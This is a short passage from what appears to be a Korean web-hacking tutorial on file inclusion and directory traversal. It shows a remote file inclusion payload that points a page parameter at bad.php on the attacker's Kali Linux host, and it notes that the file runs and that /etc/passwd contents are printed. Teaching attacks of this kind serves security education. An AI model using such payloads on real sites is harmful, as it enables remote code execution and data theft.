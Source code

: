 -파일의 경로가 파라미터를 통해 전달되면 파일 인클루전 공격이나
<br>
디렉터리 트래버셜 공격을 시도해 볼 수 있습니다.
<br>
<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">page<span style="color:#0086b3"></span><span style="color:#ff3399">=</span>http:<span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#0086b3"></span><span style="color:#ff3399">&lt;</span>칼리리눅스&nbsp;ip<span style="color:#0086b3"></span><span style="color:#ff3399">&gt;</span><span style="color:#0086b3"></span><span style="color:#ff3399">/</span>bad.php</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>
<br>

<div align="center" >
<img src="/Art of Web Hacking/Chapter11/004.png" width="520" height="440"> <br>
</div>스샷. 4<br><br>

-bad.php 파일이 인클루드 되어 실행됩니다.<br>
-덤으로 /etc/passwd의 내용도 같이 출력이 됩니다 :)

<div align="center" >